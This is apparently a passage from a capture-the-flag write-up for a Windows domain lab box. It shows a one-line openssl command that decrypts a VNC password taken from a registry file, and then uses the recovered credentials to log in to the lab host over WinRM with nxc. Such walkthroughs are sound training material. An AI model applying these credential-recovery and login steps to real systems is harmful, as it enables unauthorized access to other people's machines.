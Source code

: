 ```shell
$ ls                                                                                                   
 ArkAdRecycleBin.log   Meeting_Notes_June_2018.html   users  'VNC Install.reg'
```

![](../assets/Pasted%20image%2020250510131428.png)

Steve says that the user `TempAdmin` has the same password as the normal admin.

On the other hand, we have a password in the `VNC Install.reg` file.

![](../assets/Pasted%20image%2020250510132601.png)

## Initial Access

Searching, there is a repo [PasswordDecrypts](https://github.com/frizb/PasswordDecrypts) that shows how to decrypt VNC passwords on Linux.

```shell
$ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv 
 
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
```

The password is valid for `s.smith`.

![](../assets/Pasted%20image%2020250510133004.png)

And has `pssession`.

```shell
$ nxc winrm 10.10.10.182 -u 's.smith' -p sT333ve2                  
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```
